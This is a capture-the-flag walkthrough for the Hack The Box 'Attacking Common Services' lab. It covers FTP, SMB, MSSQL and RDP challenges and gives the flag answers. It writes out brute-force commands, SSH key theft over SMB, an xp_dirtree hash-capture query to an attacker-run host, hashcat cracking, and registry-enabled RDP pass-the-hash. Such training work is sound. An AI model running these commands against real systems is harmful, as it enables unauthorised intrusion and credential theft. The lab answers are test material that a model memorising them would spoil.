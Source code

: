 # HTB-Attacking_Common_Services
## Table of Contents
1. [FTP](#ftp)
2. [SMB](#smb)
3. [SQL](#sql)
4. [RDP](#rdp)

### FTP
#### Tools
1. medusa
2. hydra
#### Challenges
1. What port is the FTP service running on?

    We can solve this by using nmap to find ftp port.

    ```bash
    sudo nmap -sV -sC 10.129.55.8 -v
    ```
    ![alt text](Assets/FTP1.png)

    The answer is 2121.

2. What username is available for the FTP server?

    Based on the nmap output, the anonymous login is allowed. So i tried to ftp anonymously.

    ```bash
    ftp 10.129.55.8 2121
    ```
    In there, we can find users.list and passwords.list. After download using `get <file name>`, we can bruteforce by using medusa.
    
    ```bash
    medusa -U users.list -P passwords.list -h 10.129.55.8 -n 2121 -M ftp
    ```
    Another way for the faster result is using `hydra`.

    ```bash
    sudo hydra -L users.list -P passwords.list -t 32 -s 2121 ftp://10.129.55.8
    ```
    Then we will get `robin:7iz4rnckjsduza7` credential. The answer is `robin`.

3. Using the credentials obtained earlier, retrieve the flag.txt file. Submit the contents as your answer.

    By using the credential that we found, we can get the flag. The answer is `HTB{ATT4CK1NG_F7P_53RV1C3}`.

### SMB
#### Tools
1. impacket-psexec
2. CrackMapExec
3. enum4linux-ng
#### Challenges
1. What is the name of the shared folder with READ permissions?

    We can solve this by using `smbmap` with `-H` flag.

    ```bash
    smbmap -H 10.129.55.8
    ```
    The answer is `GGJ`.

2. What is the password for the username "jason"?

    We can bruteforce by using `crackmapexec` to get the password.

    ```bash
    crackmapexec smb 10.129.55.8 -u "jason" -p pws.list --local-auth
    ```
    The answer is `34c8zuNBo91!@28Bszh`.

3. Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.

    To solve this, we need `id_rsa` from GGJ shares. We can download it by using jason credential.

    ```bash
    smbmap -H 10.129.55.8 -u 'jason' -p '34c8zuNBo91!@28Bszh' --download "GGJ\id_rsa"
    ```
    Ater that, change id_rsa permission (600). Then we can ssh to there.

    ```bash
    ssh -o KexAlgorithms=diffie-hellman-group14-sha256 -o Ciphers=aes256-ctr -i id_rsa jason@10.129.203.6 -v
    ```
    The answer is `HTB{SMB_4TT4CKS_2349872359}`.

## SQL
1. responder
2. mssqlclient
### Challenges
1. What is the password for the "mssqlsvc" user?

    To solve this, first we need to setup responder to capture the hash.

    ```bash
    responder -I tun0
    ```
    Then we run mssqlcient.
    ```bash
    mssqlclient.py -p 1433 htbdbuser@10.129.163.211
    ```
    In there, we can perform this sql query to do hash stealing.
    ```bash
    EXEC master..xp_dirtree '\\10.10.14.16\share\'
    ```

    ![alt text](Assets/SQL1.png)

    The responder will capture the hash. Then we use hashcat to crack it.

    ```bash
    hashcat -m 5600 hash.txt /home/mrwhok/ctf/HTB-Academy/footprinting/rockyou.txt
    ```

    The answer is `princess1`.

2. Enumerate the "flagDB" database and submit a flag as your answer.

    We can login with mssqlclient again by using the credential we just found.

    ```bash
    mssqlclient.py -p 1433 mssqlsvc@10.129.163.211 -windows-auth
    ```
    Then we can examine the database and get the flag. Here the flow of it.

    ```bash
    SQL (WIN-02\mssqlsvc  guest@master)> SELECT name FROM sys.databases;
    name      
    -------   
    master    

    tempdb    

    model     

    msdb      

    hmaildb   

    flagDB    

    SQL (WIN-02\mssqlsvc  guest@master)> use flagDB;
    ENVCHANGE(DATABASE): Old Value: master, New Value: flagDB
    INFO(WIN-02\SQLEXPRESS): Line 1: Changed database context to 'flagDB'.
    SQL (WIN-02\mssqlsvc  WINSRV02\mssqlsvc@flagDB)> SELECT name FROM sys.tables;
    name      
    -------   
    tb_flag   

    SQL (WIN-02\mssqlsvc  WINSRV02\mssqlsvc@flagDB)> SELECT * FROM tb_flag;
    flagvalue                              
    ------------------------------------   
    b'HTB{!_l0v3_#4$#!n9_4nd_r3$p0nd3r}'   

    SQL (WIN-02\mssqlsvc  WINSRV02\mssqlsvc@flagDB)> 
    ```
    The answer is `HTB{!_l0v3_#4$#!n9_4nd_r3$p0nd3r}`.

## RDP
### Tools
1. crowbar 
2. hydra
### Challenges
1. What is the name of the file that was left on the Desktop? (Format example: filename.txt)

    We can solve this by rdp to the target. In here i used `rdesktop`.

    ```bash
    rdesktop -u htb-rdp -p HTBRocks! 10.129.203.13
    ```
    Then we can explore the desktop. The answer is `pentest-notes.txt`.

2. Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?

    The answer is `DisableRestrictedAdmin`.

3. Connect via RDP with the Administrator account and submit the flag.txt as you answer.

    In the `pentest-notes.txt`, we can find admin credential with its hash (Administrator:0E14B9D6330BF16C30B1924111104824). Then to do xfreerdp with it, we must add new registry key.

    ```powershell
    reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
    ```
    Then we can connect by using xfreerdp.

    ```bash
    xfreerdp /v:10.129.79.70 /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824
    ```
    The answer is `HTB{RDP_P4$$_Th3_H4$#}`.
